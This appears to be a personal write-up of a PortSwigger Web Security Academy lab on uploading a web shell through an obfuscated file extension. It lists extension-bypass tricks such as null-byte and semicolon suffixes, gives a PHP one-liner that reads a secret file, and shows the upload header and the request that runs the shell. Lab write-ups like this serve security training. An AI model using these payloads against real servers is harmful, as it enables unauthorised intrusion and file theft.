 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220505175454.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220505175626.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220505175650.png)

### Web shell upload via obfuscated file extension
```bash

- Some obfuscating shell upload techniques consist of:
	- file.pHp
	- file.php.jpg
	- file.php;.jpg
	- file.asp%00.jpg
	- "Multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization."
		- "Sequences like xc0 x2E, xC4 xAE or xC0 xAE may be translated to XE2"
	- file.p.phphp

Target directory /home/carlos/secret 
Submit this secret using the button provided in the lab banner. 
You can log in to your own account using the following credentials: wiener:peter
Also chain exploits w/ directory traversal

Change

<?php echo file_get_contents('/path/to/target/file'); ?>

To

<?php echo file_get_contents('/home/carlos/secret'); ?>

Intercept is on 
Send to repeater
After testing the .php extension to no avail I found the '.php%00.jpg', 'file.php;.jpg' and 'file.php.jpg' extensions all returned:

HTTP/1.1 200 OK

The only successful attempt used the '.php%00.jpg' extension

Content-Disposition: form-data; name="avatar"; filename="file.php%00.jpg"

Go to:
Home
Intercept is on
"View post"
Send to repeater 

GET /files/avatars/file.php HTTP/1.1

//or//
Go directly to location in browser

https://ac921f561f0a1ee0c0d88304003500e0.web-security-academy.net/files/avatars/file.php

```
